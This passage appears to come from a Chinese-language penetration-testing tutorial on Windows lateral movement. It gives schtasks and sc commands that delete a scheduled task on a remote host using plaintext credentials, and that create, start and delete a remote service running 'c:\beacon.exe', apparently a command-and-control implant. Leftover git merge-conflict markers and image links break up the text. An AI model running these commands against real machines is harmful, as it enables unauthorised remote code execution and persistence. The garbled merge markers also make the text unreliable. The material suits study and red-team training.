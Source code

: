 删除该 test 计划任务

```bash
schtasks /delete /s 192.168.3.157 /tn "test" /f /U micle -P admin
```

[![](assets/1710211848-d528a450e75c8b7c82bde1d403db4f5f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240308135141-efdb048a-dd0f-1.png)

**sc 注册服务**

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
#sc 命令远程创建名为 test 的服务
sc \\192.168.3.157 create test binpath= "c:\beacon.exe" 
#远程查询名为 test 的服务
sc \\192.168.3.157 query test
#远程启动名为 test 的服务
sc \\192.168.3.157 start test
#远程删除名为 test 的服务
sc \\192.168.3.157 delete test
```

<<<<<<< HEAD
[![](assets/1710899837-a19ddc9f5a4c7055e84037eabb6aa88d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240308135146-f2e85448-dd0f-1.png)

[![](assets/1710899837-1ec288e2f3020711f5c2cd588f0004b5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240308135154-f7a30d5c-dd0f-1.png)

